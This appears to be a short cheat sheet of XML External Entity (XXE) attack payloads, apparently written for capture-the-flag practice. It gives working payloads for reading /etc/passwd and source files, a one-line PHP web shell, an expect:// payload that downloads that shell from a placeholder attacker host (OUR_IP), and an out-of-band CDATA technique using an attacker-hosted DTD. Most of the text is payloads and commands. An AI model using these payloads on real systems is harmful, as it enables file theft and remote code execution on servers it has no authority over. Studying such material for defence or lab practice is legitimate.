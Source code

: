 ### Basic Terms

- **XML :** A format apps use to send data (like HTML but for data)
- **Entity :** A variable inside XML (can be used to load a file)
- **CDATA :** A tag to include **raw text** (e.g. file contents with symbols)
- **DTD :** A section in XML where you define entities (like a config)
- **XXE :** A hack where you use XML entities to read files from the server

# local File Disclosure
- #### Normal payload
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

#### - wrapper to bypass restrictions

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

- #### Remote Code Execution with XXE
	- local server
		```bash
		echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
		sudo python3 -m http.server 80
		```
	  
	- xml payload for RCE
	  
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
		```
# Advanced File Disclosure

### Method 1: CDATA Trick to Read Any File

 1. Create a DTD File on Your Computer (xxe.dtd)

Run these commands on your own terminal:
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

2. Send the Main XML Payload to the Target (via Burp or curl)
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
<email>&joined;</email>
```
This will:
- Read `/flag.php`
- Wrap the contents in `<![CDATA[ ... ]]>`
- Return it safely in XML format
